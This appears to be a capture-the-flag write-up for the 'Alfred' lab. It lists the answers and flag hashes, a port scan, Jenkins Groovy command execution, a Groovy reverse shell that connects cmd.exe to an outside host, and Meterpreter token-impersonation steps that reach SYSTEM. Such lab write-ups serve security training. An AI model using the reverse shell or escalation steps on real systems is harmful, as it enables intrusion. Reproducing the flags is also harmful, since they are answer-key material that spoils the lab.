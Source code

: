 # Alfred
##### Question 1: How many ports are open?
Answer
```bash
3
```

##### Question 2: WHat is the username and password for the login panel?
Answer
```bash
admin:admin
```

##### Question 3: What is the user flag?
Answer
```bash
79007a09481963edf2e1321abd9ae2a0
```

##### Question 4: What is the final size of the exe payload that you generated?
Answer
```bash
73802
```

##### Question 5: What is the output when you run the getuid command?
Answer
```bash
NT AUTHORITY\SYSTEM
```

##### Question 6: Contents of root flag
Answer
```bash
dff0f748678f280250f25a45b8046b4a
```

- - - - - - - - - - -- - - - - -  - - - -  - - -  - - - - - -  - - 
Nmap Scan:
```bash

Nmap scan report for 10.10.90.98
Host is up (0.11s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2021-12-16T22:20:58
|_Not valid after:  2022-06-17T22:20:58
|_ssl-date: 2021-12-17T22:25:57+00:00; +1s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   43.72 ms  10.6.0.1
2   ... 3
4   110.31 ms 10.10.90.98

```

Jenkins Groovy Run Commands:
```bash
def cmd = 'whoami'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

Jenkins Shell
```bash
String host="HOST";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

Priv Esc:
```bash
load incognito
impersonate_token "BUILTIN\Administrators"
migrate -N winlogon.exe
```